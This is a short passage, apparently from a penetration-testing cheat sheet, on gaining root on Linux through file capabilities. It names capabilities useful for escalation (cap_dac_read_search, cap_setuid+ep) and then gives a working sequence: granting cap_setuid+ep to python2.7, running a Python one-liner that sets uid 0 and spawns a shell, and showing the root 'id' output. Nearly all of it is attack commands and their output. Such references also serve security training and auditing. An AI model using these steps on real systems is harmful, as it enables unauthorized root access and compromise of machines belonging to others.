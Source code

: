 #### Alternatively the following capabilities can be used in order to upgrade your current privileges.

#### `cap_dac_read_search # read anything` `cap_setuid+ep # setuid`

#### Example of privilege escalation with cap\_setuid+ep

#### `sudo /usr/bin/setcap cap_setuid+ep /usr/bin/python2.7` `python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'` `sh-5.0# id` `uid=0(root) gid=1000(swissky)` `>`

![](../../../.gitbook/assets/capabilities1.png)
